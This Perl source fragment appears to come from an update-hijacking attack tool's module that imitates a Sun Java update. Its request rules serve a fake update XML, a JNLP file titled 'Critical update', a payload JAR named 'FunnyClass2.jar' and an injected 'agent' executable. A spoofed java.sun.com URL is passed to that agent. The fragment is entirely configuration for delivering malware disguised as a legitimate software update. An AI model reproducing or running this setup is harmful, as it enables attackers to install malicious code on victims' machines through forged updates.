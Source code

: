 ``` perl
                      	#In some update process we can specify a final page after update installed
                      	#so we send to a controller page.
		    'method' => '', #not implemented yet
		    'bin'    => '', #set to 1 if we are going to send a binary file
		    'string' => '', #if we have chosen the 'type' string then in this variable we set the response
		    'parse' => '', #set to 1 if the file or string need be parsed with options
		    'file' => './include/sunjava/sunjava_map.xml'
		    },

		    {
		    'req' => '^/java_update.xml$', #regex friendly
		    'type' => 'file', #file|string|agent|install
		    'method' => '', #any
		    'bin'    => '',		    
		    'string' => '',
		    'parse' => '1',
		    'file' => './include/sunjava/sunjava_update.xml'
		    },
		    {
		    'req' => '/x.jnlp', #regex friendly
		    'type' => 'file', #file|string|agent|install
		    'method' => '', #any
		    'bin'    => '',		    
		    'string' => '',
		    #In this case we parse the file
                    'parse' => '1',
		    #To parse the file we use special tags, like <%OPTIONAME%> inside the "file" or "string" field
	            #This tags are replaced with the values of the options, for example
	            #<%TITLE%> will be replaced by 'Critical update'
		    'file' => './include/sunjava/x.jnlp'
		    },
		    {
		    'req' => '.jar', #regex friendly
		    'type' => 'file', #file|string|agent|install
		    'method' => '', #any
		    'bin'    => 1,		    
		    'string' => '',
		    'parse' => '',
		    'file' => './include/sunjava/JavaPayload/FunnyClass2.jar'
		    },		    

		    {
		    'req' => '.exe', #regex friendly
		    'type' => 'agent', #Here we have an agent type with a binary response
		    'bin'    => 1,
		    'method' => '', #any
		    'string' => '',
		    'parse' => '',
		    'file' => ''
		    }
    ],
    
    #Options
    #Here we have the options that will be displayed with "show options" inside the current module.
    #This options are used to parse the string or a file using in the responses
    'options' => {  'agent'  => { 'val' => './agent/java/javaws.exe', #The default value
		    		  'desc' => 'Agent to inject'}, #Brief description
		    'arg'    => { 'val' => 'http://java.sun.com/x.jnlp"', 
			    	  'desc' => 'Arg passed to Agent'},
		    'enable' => { 'val' => 1, 
			    	  'desc' => 'Status'},
```